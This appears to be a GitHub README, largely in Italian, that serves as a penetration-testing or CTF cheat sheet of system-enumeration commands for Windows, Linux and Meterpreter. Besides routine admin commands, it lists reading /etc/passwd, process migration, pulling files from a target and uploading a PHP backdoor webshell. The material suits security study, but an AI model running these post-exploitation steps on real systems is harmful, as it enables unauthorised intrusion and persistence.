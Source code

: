 # Enumeration-of-system-info
Let's check the command to enumerate a system.
# What's system info enumeration?
System info enumeration is a process of gathering information about a system, such as its operating system, network infrastructure, usernames, machine names, and other details. It can be used for ethical hacking, penetration testing, or system administration. System info enumeration can be performed using various tools and techniques, such as command-line utilities, network scanners, or web crawlers.

# My list of command for enumerating system info

## Usefull command shell Windows
	• hostname (hostname del sistema)
	• systeminfo (informazioni di sistema, versione OS, Os build number, hardware configuration, windows hotfix installed)
	• wmic qfe get Caption,Description,HotFixID,InstalledOn (hotfix installati con vari dettagli)
	• whoami
	• whoami /priv (enumera l'utente e i suoi privilegi)
	• net users (lista gli user accounts)
	• net user administrator (mostra le informazioni di configurazione di tale account)
	• net localgroup (enumera i gruppi che ci sono nel sistema)
	• net localgroup administrators (mostro quali sono gli utenti che sono nel gruppo administrators)
	• ip a s (mostra le network interfaces connesse al computer)
	• cat /etc/networks (lista le network configurate)
	• cat /etc/hosts (enumera i domini mappati localmente e i rispettivi ip)
	• cat /etc/resolv.conf (mostra il DNS nameserver ip)
	• net start (enumera la lista dei servizi in running)
	• wmic service list brief (uguale al comando di sopra, ma da anche informazioni dettagliate)
	• tasklist /SVC (mostra la lista dei task in running e il corrispettivo servizio)
	• schtasks /query /fo LIST (enumera la lista dei task schedulati)
	• Get-ChildItem -Path C:\Users -Recurse -filter *flag*.txt (cerca il flag nel punto che dici tu)
	• cd /
	• dir
        • type flag.txt

## Usefull command bash Linux
	• hostname (hostname del sistema)
	• cat /etc/issue (trova il nome distro di linux)
	• cat /etc/*release (trova la versione di linux)
	• uname -a (trova la versione del kernel di linux)
	• lscpu (trova le informazioni hardware del sistema)
	• df -h (trova la list degli storage con le varie informazioni tra cui dove sono montate)
	• whoami (ti dice in quale user account sei)
	• groups root (enumera i gruppi di cui fa parte root)
	• cat /etc/passwd (lista gli user and service accounts)
	• groups (enumera i gruppi che ci sono)
	• who (mostra gli utenti connessi ora)
	• lastlog (lista tutti gli utenti con l'ultimo accesso fatto)
	• ip a s (mostra le varie interfaccie connesse)
	• cat /etc/networks (enumera la lista delle network configurate e i loro subnet)
	• cat /etc/hosts (enumera la lista dei domini mappati localmente e i rispettivi ip)
	• cat /etc/resolv.conf (trova l'ip del default DNS server name)
        • cat /etc/cron* (enumera la lista dei cron job)

## Usefull command meterpreter Windows and Linux
	• sysinfo (informazioni di sistema)
	• shell (apre una shell)
	• getuid (NT-WINDOWS)
	• getprivs (enumera i privilegi che ha l'utente)
	• background (mette in background la sessione meterpreter = ctrl+z)
	• ifconfig (le interfaccie)
	• netstat (ottieni la lista delle porte aperte)
	• route (ottieni la routing table)
	• ps (mostra i processi che runnano su windows)
	• pgrep explorer.exe (cerca il suo pid)
	• migrate 2176 (migra nel pid)
	• lpwd (mostra la cartella locale di kali)
	• download flag5.zip (scarica il zip)
	• checksum md5 /bin/bash (tira fuori il checksum di un file)
	• getenv PATH (ti dà il path di dove sono le variabili d'ambiente)
	• search -d /usr/bin -f *flag* -r (-d cerca dalla directory che indichi, -f indichi cosa cerchi e metti -r se vuoi cercare nelle sue sottocartelle)
	• upload /usr/share/webshells/php/php-backdoor.php (carica una webshell nel target)

For more information about the enumeration, I direct you to my nmap github repository.<br> 
**https://github.com/SavioFengGit/Nmap-Active-Information-Gathering** <br>


#Author
<b>Xiao Li Savio Feng</b>




